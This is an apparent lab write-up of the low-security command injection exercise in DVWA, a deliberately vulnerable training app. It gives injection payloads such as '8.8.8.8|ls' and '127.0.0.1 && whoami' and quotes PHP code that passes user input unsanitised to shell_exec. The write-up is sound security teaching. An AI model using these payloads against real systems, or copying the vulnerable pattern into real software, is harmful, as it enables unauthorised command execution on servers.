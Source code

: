 # Command Injection - Low 

## Attack Steps 

1. Navigate to the DVWA Command Injection page:
    
    - http://<ip address>/dvwa/vulnerabilities/exec
 
2. In the input field, enter the following payload:  

    ```bash
    8.8.8.8|ls
    ```


3. Click the **Submit** button.

4. The output should display the ping results followed by the directory listing from the server, for example:  

    ```bash 
    help
    index.php
    source
    ```



## Vulnerable Code Analysis

### File:
`/var/www/dvwa/vulnerabilities/exec/source/low`

#### Key Vulnerability Points:

```php
 <?php

if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
    
}
?> 
```

### Explanation
- The code takes direct user input `$target = $_REQUEST['ip'];` and passes it straight into a shell command without any validation or sanitisation.  
- The value of `$target` is concatenated into the `ping` command string inside `shell_exec()`, e.g.:  
    ```php
    shell_exec('ping -c 3 ' . $target);
    ```  
- This can be exploited using a payload such as:  
    ```
    127.0.0.1 && whoami
    ```  
    - The command executed by the server becomes:  
      ```
      ping -c 3 127.0.0.1 && whoami
      ```  
    - After the ping runs, `whoami` will also execute, revealing the username of the process running PHP.  
- Causes:  
    - No input validation or sanitisation on `$target`, so arbitrary commands can be injected.  
    - Direct insertion of user input into a shell command allows attackers to append extra commands using operators like `&&`, `;`, or `|`.  
    - Not using safe functions like `escapeshellarg()` or input whitelisting means special characters are interpreted by the shell.  

